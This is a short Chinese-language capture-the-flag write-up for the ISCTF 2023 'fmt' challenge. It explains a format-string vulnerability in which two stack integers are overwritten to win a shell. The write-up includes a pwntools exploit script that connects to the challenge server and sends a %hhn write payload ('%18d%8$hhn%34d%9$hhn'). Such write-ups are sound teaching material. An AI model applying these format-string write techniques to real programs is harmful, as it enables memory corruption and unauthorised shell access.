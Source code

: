 ```yaml
---
title: isctf2023 - fmt
date: 2023/12/3 12:00:00
tags:
    - noob
excerpt: 通过修改栈上两个int值，利用格式化字符串漏洞成功获取shell。
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

这题是要将栈上的2个int值修改成特定数字就给shell，作者已将地址放在栈上，
gdb动调格式化字符串的参数，发现这2个地址均可访问到，那么直接使用%n将数字写入即可

（我看作者还在buf上放了地址的后8位，估计我这个是非预期解吧）

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./fmt')
    else:
        sh = remote('43.249.195.138', 22188)
    if lo & 0b10:
        gdb.attach(sh)

    # 第8个参数和第9个参数刚好是那2个地址，分别写入0x12和0x34即可
    # 给新手一个提醒，在同一条printf语句中，%n统计的是累计打印出的字符数
    # %hhn是将地址视为byte *向其中写入数字
    sh.sendline(b'%18d%8$hhn%34d%9$hhn')
    sh.interactive()

payload(0)
```

Done.
